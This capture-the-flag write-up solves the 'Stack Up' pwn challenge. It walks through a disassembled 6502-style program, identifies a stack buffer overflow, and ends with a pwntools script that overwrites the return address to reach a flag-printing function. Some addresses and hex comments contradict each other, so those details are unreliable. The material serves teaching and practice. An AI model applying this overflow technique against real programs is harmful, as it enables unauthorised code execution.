 # 1337UP LIVE CTF 2023

## Stack Up

> Digging Deep: Unearthing Forgotten Artifacts from the Binary Age
> 
> Author: DavidP, 0xM4hm0ud
> 
> [`stackup.zip`](cstackup.zip)

Tags: _pwn_

## Solution

We are provided with two files. This chall is similar to the `Impossible Mission` challenge, but now its an pwn challenge. One binary and one file with data in it. If we use `strings` on file `program.prg` we get some strings, like the REDACTED flag:

```bash
$ strings program.prg
INTIGRITI{REDACTED_REDACTED}
Welcome! Something here...
Bye bye!
Hello
```

Lets disassemble it with our disassembler that we created in the reversing challenge. Here the output(With some comments of my own):

```bash
; Set keyboard as active input channel
004c LDX 3
004e JSR ffc9

; Start of the program. 
0051 LDA 20
0053 STA fb
0055 LDA c0
0057 STA fc
0059 JSR c0c9       ; Jumps to the print function
005c JSR c06d       ; Jumps to the function that takes our input
005f LDA 3c         ; Loads bye bye message
0061 STA fb
0063 LDA c0
0065 STA fc
0067 JSR c0c9       ; Jumps to the print function
006a RTS            ; Exits

; Take our input and does some checks
006b some var
006c some var
006d CLC
006e TSX
006f STX c06b       ; Stores the SP at some memory
0072 TXA
0073 SBC 32         ; Substract 0x32/50 from the SP
0075 TAX
0076 DEX
0077 TXS
0078 STA fd
007a LDA 1
007c STA fe
007e LDY 0
0080 LDA 0
0082 STA c06c
0085 JSR ffcf       ; This will take our input
0088 PHA
0089 LDA c06c       ; Loads our input length in the accumulator
008c CMP 64         ; Compares our input length in the accumulator with 0x64/100. 100 is Maxsize. OVERFLOW is here because we can input more characters than the buffer can take(50)
008e PLA
008f BEQ 11
0091 STA (fd), y
0093 INY
0094 INC c06c       ; Increments our input length
0097 CMP d          ; d is 0x13(carriage return) so checks if user clicks on enter
0099 BEQ 7
009b CMP a          ; a is 0x10(newline) so checks if user clicks on enter
009d BEQ 3
009f JMP c085
00a2 LDA 45
00a4 STA fb         ; Loads Hello message
00a6 LDA c0
00a8 STA fc
00aa JSR c0c9       ; Jumps to the print function
00ad LDA fd         ; Loads our input 
00af STA fb
00b1 LDA fe
00b3 STA fc
00b5 JSR c0c9       ; Jumps to the print function
00b8 LDX c06b       ; Grabs the SP and puts in the X register 
00bb TXS
00bc RTS

; Win function
00bd LDA 3          ; Loads the flag
00bf STA fb
00c1 LDA c0
00c3 STA fc
00c5 JSR c0c9       ; Jumps to the print function
00c8 RTS

; Print function
00c9 LDY ff
00cb INY
00cc LDA (fb), y
00ce JSR ffd2
00d1 BNE f8
00d3 RTS
```

So from here we can see that we have an buffer overflow vulnerability and that there is a win function.
We know 50 is the length so everything above 50 will be overflow. Our padding will be 51 because the buffer is 50 and SP points after the return address.
We can also see it in the disassembled output:

```bash
006e TSX            ; Puts SP in X register
006f STX c06b       ; Stores the SP at some memory
0072 TXA            ; Puts value at X register in accumulator
0073 SBC 32         ; Substract 0x32/50 from the SP
0075 TAX            ; Puts accumulator back in X register 
0076 DEX            ; Decrements X by 1
0077 TXS            ; Puts the value in the X register in the SP register
```

How do we know where we need to return?
When we decompile the binary with ghidra for example, we can find the init function:

```c
bool load_program(void *param_1,size_t param_2)
{
  if ((long)param_2 < 0x1001) {
    memcpy(&DAT_00114908,param_1,param_2);
    FUN_0010269e(0xffff);
    DAT_00108900 = 0xc000;          // program is loaded to 0xC000
  }
  return (long)param_2 < 0x1001;
}
```

We can see here that the base address is 0xc000. In the disassembled output from before we can see some addresses like `c0c4`, `c081`. Those are all addresses in the program. So to get the win address we can see in the disassembled output that the win starts at `00b8`:

```bash
; Win function
00b8 LDA 3 ; Loads the flag
00ba STA fb
00bc LDA c0
00be STA fc
00c0 JSR c0c4 ; Jumps to the print function
00c3 RTS
```

So the address is `0xc0b8`. We see that it loads the flag at offset 3. So lets see if the flag is there:

```bash
                 ,------- flag value --------------------.
                 v                                        v
┌────────┬─────────────────────────┬─────────────────────────┬────────┬────────┐
│00000000│ 4c 4c c0 49 4e 54 49 47 ┊ 52 49 54 49 7b 52 45 44 │LL×INTIG┊RITI{RED│
│00000010│ 41 43 54 45 44 5f 52 45 ┊ 44 41 43 54 45 44 7d 00 │ACTED_RE┊DACTED}0│
│00000020│ 57 65 6c 63 6f 6d 65 21 ┊ 20 53 6f 6d 65 74 68 69 │Welcome!┊ Somethi│
│00000030│ 6e 67 20 68 65 72 65 2e ┊ 2e 2e 0a 00 42 79 65 20 │ng here.┊.._0Bye │
│00000040│ 62 79 65 21 00 48 65 6c ┊ 6c 6f 20 00 a2 03 20 c9 │bye!0Hel┊lo 0×• ×│
│00000050│ ff a9 20 85 fb a9 c0 85 ┊ fc 20 c9 c0 20 6d c0 a9 │×× ×××××┊× ×× m××│
│00000060│ 3c 85 fb a9 c0 85 fc 20 ┊ c9 c0 60 00 00 18 ba 8e │<×××××× ┊××`00•××│
│00000070│ 6b c0 8a e9 32 aa ca 9a ┊ 85 fd a9 01 85 fe a0 00 │k×××2×××┊×××•×××0│
│00000080│ a9 00 8d 6c c0 20 cf ff ┊ 48 ad 6c c0 c9 64 68 f0 │×0×l× ××┊H×l××dh×│
│00000090│ 11 91 fd c8 ee 6c c0 c9 ┊ 0d f0 07 c9 0a f0 03 4c │•××××l××┊_×•×_×•L│
│000000a0│ 85 c0 a9 45 85 fb a9 c0 ┊ 85 fc 20 c9 c0 a5 fd 85 │×××E××××┊×× ×××××│
│000000b0│ fb a5 fe 85 fc 20 c9 c0 ┊ ae 6b c0 9a 60 a9 03 85 │××××× ××┊×k××`×•×│
│000000c0│ fb a9 c0 85 fc 20 c9 c0 ┊ 60 a0 ff c8 b1 fb 20 d2 │××××× ××┊`××××× ×│
│000000d0│ ff d0 f8 60             ┊                         │×××`    ┊        │
└────────┴─────────────────────────┴─────────────────────────┴────────┴────────┘
```

It indeed starts at that offset.

So if we put everything in a script we get:
> solve.py
```python
from pwn import *

p = process(["runtime", "program.prg"])
p.sendline(b"a"*51 + b"\xbd\xc0")
print(p.readall())
```

Running this on remote will give us the flag.

Flag `INTIGRITI{d0_s0m3_r3tr0_pwn}`